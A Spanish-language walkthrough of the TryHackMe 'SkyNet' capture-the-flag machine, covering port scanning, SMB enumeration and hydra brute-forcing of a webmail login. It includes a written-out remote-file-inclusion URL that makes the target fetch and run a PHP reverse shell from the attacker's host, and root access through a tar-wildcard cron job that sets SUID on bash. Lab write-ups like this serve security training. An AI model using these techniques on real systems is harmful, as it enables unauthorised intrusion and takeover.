Hola de nuevo y gracias por leerme. Hoy seguiremos completando el Path de Offensive Pentesting de TryHackMe con una máquina llamada SkyNet así que no vamos a perder el tiempo y nos ponemos manos a la obra, espero que os guste y que todos aprendamos mucho juntos. Recordad que todo lo que veremos en el día de hoy se está utilizando en un entorno de pruebas controlado y que su uso fuera de este ámbito no es ético y podría conllevar problemas penales.

---------------------------------------------------------------------------------------------------------------------------------------------------

Como siempre empezaremos conectando nuestra máquina atacante a la VPN de TryHackMe e iniciando la máquina, lo cual no debería llevarnos más de 2 minutos, una vez hecho esto estamos listos para comenzar nuestra aventura.





Empezamos lanzando un ping a la máquina para verificar que está activa y funcionando correctamente. Al tener un TTL de 63 podemos asumir que estamos ante una máquina Linux.





# Enumeración


Empezamos lanzando un escaneo básico de puertos con nmap para ver qué servicios están corriendo en esta máquina.


``` sudo nmap -p- --min-rate 5000 10.10.132.202 -Pn -n -oN escaneo ```





Podemos ver varios puertos abiertos, algunos de ellos interesantes. De cualquier forma, vamos a realizar un escaneo de puertos más exhaustivo para tratar de enumerar los servicios concretos funcionando en esta máquina así como las versiones de los mismos. Para esto usaremos el parámetro -sCV de nmap.


``` sudo nmap -p 80,22,110,139,143,445 -sCV 10.10.132.202 -Pn -n -oN escaneoSC ```





Con este escaneo realizado nos centraremos en principio en el puerto 445 para ver si somos capaces de listar los shares de esta máquina. Para lograr esto usaremos enum4linux.








Vemos que hay dos directorios y uno de ellos llama la atención ya que tiene como nombre Anonymous, por lo que vamos a tratar de leer los contenidos sin tener credenciales. Vamos a utilizar la herramienta smbclient.





Vemos que hay un archivo llamado atention.txt y una carpeta de logs, vamos a tratar de descargar todos los archivos a los que tengamos acceso a nuestra máquina atacante para inspeccionarlos.











En el archivo attention.txt encontramos un mensaje enviado por el usuario que vimos anteriormente en los shares. El mensaje hace saber a todos los usuarios que deben de cambiar su contraseña, pero no nos da más información.





El contenido de los archivos de log parecen ser varias posibles contraseñas por lo que parece que tenemos un diccionario personalizado que podríamos usar para hacer fuerza bruta. En principio parece que por aquí no podemos hacer más así que vamos a echar un ojo a la web que se encuentra en el puerto 80 de la máquina víctima.





Nada demasiado interesante por aquí, vamos a observar el código fuente y a realizar fuzzing en la web para tratar de enumerar directorios y archivos a los que podamos acceder.





``` wfuzz -u http://10.10.132.202/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hc 404 --hs 8,13 -c ```





Si intentamos acceder al directorio squirrelmail nos toparemos con un panel de login, y teniendo un posible usuario y una lista de contraseñas lo primero que se nos ocurre es hacer un ataque de fuerza bruta para comprobar si alguna de estas contraseñas es válida con el usuarios que hemos visto anteriormente. Para esto usaremos hydra y como en máquinas anteriores lo primero será interceptar con Burp la petición POST para hacernos con los datos que envía.











Con la petición interceptada y sabiendo los datos que envía podemos usarlos para lanzar un ataque de fuerza bruta con hydra, aunque también podría realizarse directamente con el intruder de BurpSuite.





¡Bien! Tenemos un inicio de sesión válido, vamos a usarlo en el panel de login del servicio web.





Estamos dentro, vamos a echar un vistazo.


Nos encontramos un correo que indica una nueva contraseña para el servicio SMB de este usuario, en el cual había un share con su nombre, por lo que vamos a tratar de acceder al mismo.





Efectivamente podemos acceder y listar todo el contenido de este directorio, vamos a analizarlo en detalle.





Dentro del directorio notes nos encontramos con un archivo llamado important.txt, el cual sin duda vamos a descargar a nuestra máquina para ver su contenido.





Encontramos lo que parece ser un directorio oculto, por lo que trataremos de enumerarlo. Al leer la nota se menciona CMS, por lo que trataremos de hacer esto visualizando el directorio en el puerto 80 de la máquina.





En el código fuente no encontramos nada de interés, por lo que volveremos a fuzzear para seguir buscando nuevas rutas y caminos que nos den información que sea de nuestro interés.





¡Vaya! Encontramos una ruta llamada administrator, vamos a acceder a ella.





Encontramos un panel de login de algo llamado Cuppa CMS. Probaremos con las credenciales que conseguimos gracias a hydra para ver si son válidas también en este panel de autenticación. Al probarlo nos damos cuenta de que ninguna de las dos contraseñas válidas sirven en este panel así que tendremos que buscar otra forma. Buscaremos más información sobre este CMS.





Vemos que hay un exploit público que nos da la posibilidad de explotar una inclusión remota de archivos, pudiendo subir archivos maliciosos como una reverse shell, que es lo que vamos a hacer en este caso.


# Explotación








Leeremos detenidamente el funcionamiento de esta vulnerabilidad y para asegurarnos de que la máquina es realmente vulnerable usaremos lo que he marcado en la foto. Al acceder a dicha ruta vemos que efectivamente se activa la vulnerabilidad y somos capaces de leer el archivo /etc/passwd de la máquina.





Sabiendo esto, vamos a prepararnos para poder ejecutar una reverse shell en PHP desde la máquina víctima y recibir una conexión exitosa en nuestra máquina atacante. Para esto tendremos que hacernos con una reverse shell en PHP y editar las variables oportunas indicando nuestra IP de la VPN y el puerto en el que nos pondremos en escucha.








Con esto hecho tenemos que levantarnos un servidor python en el que se encontrará nuestra reverse shell. Cuando lo hayamos hecho simplemente accederemos a la siguiente ruta y la reverse shell debería de ejecutarse:


``` http://10.10.132.202/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$tuip/$tushell.php ```








La shell se ha ejecutado correctamente y hemos recibido una conexión exitosa desde la máquina víctima, estamos dentro de la máquina y somos capaces de leer la primera flag.





# Post-Explotación


Dentro del directorio del usuario milesdyson podemos ver una carpeta llamada backups, dentro de la misma hay un archivo .sh que es propiedad del usuario root y que nos podría ayudar a convertirnos en dicho usuario. 





Vemos que este script de ejecuta cada minuto, y que lo que hace es hacer uso del wildcard para comprimir todo lo que se encuentre en la carpeta /var/www/html para realizar una copia de seguridad y no perder el contenido. Este uso del wildcard es peligroso en términos de seguridad ya que selecciona TODO lo que esté en dicho directorio, ya sea bueno o malo. Usaremos esta mala configuración para ejecutar unos comandos que otorgarán permisos SUID a la bash pudiendo ejecutarla directamente como root.





Para poder ejecutar comandos a la vez que se realiza el backup necesitaremos hacer el uso de dos flags junto al comando tar. Como nosotros no vamos a ejecutar el comando añadiremos estos parámetros en archivos para que se ejecuten una vez el script acceda al directorio. Después de añadirlos añadiremos el comando que queremos que ejecute el propietario del script y lo incluiremos en el mismo archivo que los parámetros.





Con todos los pasos realizados de forma correcta sólo nos queda esperar mirando de vez en cuando los permisos de la shell hasta que aparezca una s que indique que ésta tiene permisos SUID.





¡Eso es! La shell ya tiene los permisos que queremos y podemos ejecutarla como super usuario con el comando ``` bash -p ```











Somos usuario root y hemos comprometido la máquina por completo siendo capaces de leer la última flag y dar por concluida esta máquina. Espero que os haya gustado, nos vemos en la siguiente :)


